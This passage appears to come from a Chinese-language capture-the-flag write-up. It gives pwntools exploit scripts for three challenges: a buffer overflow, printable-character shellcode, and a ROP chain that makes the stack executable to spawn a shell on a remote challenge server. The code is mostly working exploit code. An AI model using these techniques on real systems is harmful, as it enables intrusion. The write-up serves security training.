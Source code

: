 ```python
#sh = process('./easy_equation')
sh = remote('38.39.244.2',28066)
payload = 'a'*9 + p64(0x4006D0)

sh.sendline(payload)

sh.interactive()

```
## <span id="head5">shellcode Revenge</span>
限制字符范围为ascii可见字符，我们可以用谷歌的ALPHA3工具加密shellcode为存ascii字符shellcode即可。
```python
#coding:utf8
from pwn import *

#sh = process('./shellcode-revenge')

sh = remote('38.39.244.2',28020)
payload = 'Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t'

sh.send(payload)

sh.interactive()
```
## <span id="head6"> nothing_but_everything</span>
去掉了符号，我们可以写一个简易的程序静态编译后与该二进制进行对比，推断出某些函数的地址。我们找到_dl_make_stack_executable函数后，调用它，让栈变得可执行，然后jmp rsp执行shellcode。
```python
#coding:utf8
from pwn import *

#sh = process('./nothing_but_everything')

#context.log_level = 'debug'
sh = remote('38.39.244.2',28089)
jmp_rsp = 0x0000000000494467
#mov qword ptr [rax], rdx ; xor eax, eax ; ret
mov_p_rax_rdx = 0x0000000000471c1a

pop_rax = 0x00000000004494ac
pop_rdx = 0x0000000000449505
pop_rdi = 0x0000000000400686

_dl_make_stack_executable = 0x000000000047FB30
__stack_prot = 0x00000000006B8EF0
stack_end_ptr = 0x00000000006B8AB0
sh.sendline('haivk')

sleep(0.5)

payload = 'a'*0x78 + p64(pop_rax) + p64(__stack_prot) + p64(pop_rdx) + p64(0x1000007) + p64(mov_p_rax_rdx)
payload += p64(pop_rdi) + p64(stack_end_ptr) + p64(_dl_make_stack_executable) + p64(jmp_rsp) +asm(shellcraft.amd64.linux.sh(),arch='amd64')
#raw_input()
#payload = 'a'*0x78 + p64(0x400B4D)
sh.sendline(payload)

sh.interactive()
```